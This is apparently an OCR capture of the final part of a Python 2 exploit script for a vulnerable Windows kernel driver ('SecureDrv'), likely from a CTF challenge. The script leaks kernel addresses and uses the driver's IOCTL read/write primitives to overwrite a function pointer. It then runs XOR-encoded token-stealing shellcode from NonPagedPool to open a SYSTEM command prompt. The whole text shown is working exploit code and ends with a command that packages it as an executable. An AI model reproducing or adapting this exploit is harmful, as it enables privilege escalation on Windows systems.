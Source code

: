 ```python
    result += decoder
    result += xored_sc
    result += popa()     # popa code for register restore after XOR decoding
    result += return_0()

    return result


hDriver = DriverConnect(DRIVER_NAME)
if hDriver == NULL:
	print "[!] cannot create kernel driver handler"
	sys.exit(-1)

print "[+] %s handler = 0x%x" % (DRIVER_NAME, hDriver)
securedrv_addr = GetDeviceBase(DEVICE_NAME)
print "[+] %s base address = 0x%016x" % (DEVICE_NAME, securedrv_addr)
allocpool_addr = GetKernelBase() + ExAllocatePoolWithTag_offset
print "[+] nt!ExAllocatePoolWithTag = 0x%016x" % (allocpool_addr)
func_ptr_addr = securedrv_addr + func_ptr_offset
print "[+] SecureDrv!func_ptr = 0x%016x" % func_ptr_addr

dwRet = DWORD(0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE1, NULL, 0, NULL, 0, byref(dwRet), 0)

buf = create_string_buffer(0x100)
memmove(buf, p64(allocpool_addr), 8)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, addressof(buf), 8, NULL, 0, byref(dwRet), 0)

DeviceIoControl(hDriver, BABY_IOCTL_CODE2, NULL, 0, NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, func_ptr_addr, -1, NULL, 0, byref(dwRet), 0)

DeviceIoControl(hDriver, BABY_IOCTL_CODE3, 0, 0x1000, addressof(buf), 8, byref(dwRet), 0)
pool_addr = up64(buf[:8])
print "[+] NonPagedPool object = 0x%016x" % pool_addr

# write shellcode into NonPagedPool Object
shellcode = tokenStealingShellcodeForWin10_1809
shellcode = xored_shellcode(shellcode)
memmove(buf, shellcode, len(shellcode))
DeviceIoControl(hDriver, BABY_IOCTL_CODE1, NULL, 0, NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, addressof(buf), len(shellcode), NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE2, NULL, 0, NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, pool_addr, -1, NULL, 0, byref(dwRet), 0)

# jmp to overwritten NonPagedPool Object
raw_input("gogo? ")
memmove(buf, p64(pool_addr+1), 8) # plus 1 to terminate last NULL byte
DeviceIoControl(hDriver, BABY_IOCTL_CODE1, NULL, 0, NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, addressof(buf), 8, NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE2, NULL, 0, NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, func_ptr_addr, -1, NULL, 0, byref(dwRet), 0)
DeviceIoControl(hDriver, BABY_IOCTL_CODE3, NULL, 0, NULL, 0, byref(dwRet), 0)

popCMD()

# python -m PyInstaller --onefile -a -n baby_exploit ex.py
```